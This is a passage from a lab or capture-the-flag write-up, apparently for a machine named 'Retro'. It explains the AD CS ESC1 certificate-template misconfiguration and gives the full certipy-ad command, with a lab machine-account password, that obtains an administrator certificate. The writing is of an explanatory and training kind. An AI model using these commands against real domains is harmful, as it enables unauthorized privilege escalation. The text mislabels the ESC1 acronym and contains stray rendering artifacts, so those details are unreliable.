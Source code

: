 ```bash
        Write Property Principals       : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'RETRO.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

We see that there is vulnerability ESC1

>💡 
>L’**attaque AD CS ESC1** (Active Directory Certificate Services – *Enterprise Subordinate CA Misconfiguration 1*) est une des failles d’exploitation les plus connues dans les environnements Windows où les services de certificats sont mal configurés. Elle a été documentée notamment dans les travaux de Will Schroeder et Lee Christensen (SpecterOps).

💡Objective of the ESC1 attack

Allow a **non-privileged user** (or one with limited rights) to **request a certificate** for **any Active Directory user**, including an **account with elevated privileges (such as Domain Admin)**. This certificate can then be used to authenticate via **Kerberos PKINIT**.

---

### 🔧 Prerequisites for ESC1

- A **certificate template** is incorrectly configured with :
    - `ENROLLEE SUPPLIES SUBJECT` : The user requesting the certificate can choose the identity they want. (the field `SubjectAltName` the certificate can be manipulated).
    - `Client Authentication` in uses (EKU = Enhanced Key Usage).
    - Access via *enroll* is authorized for non-privileged users.
    - No restrictions such as `Manager Approval` or `Authorized Signatures`.

So let's try farming 
request a certificate with a `Subject Alternative Name (SAN)` corresponding to a **high-privilege user**, such as `Administrator@domain.local`.

```bash
certipy-ad req -u 'BANKING$' -p 'Liebe123' -dc-ip 10.10.80.202 -ca retro-DC-CA -target 'DC.retro.vl' -template 'RetroClients' -upn 'administrator@retro.vl' -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with UPN 'administrator@retro.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
                                                           
```

- **Certificate retrieval**
    
    Une fois approuvé automatiquement, nous  récupèrons un certificat valide.
    
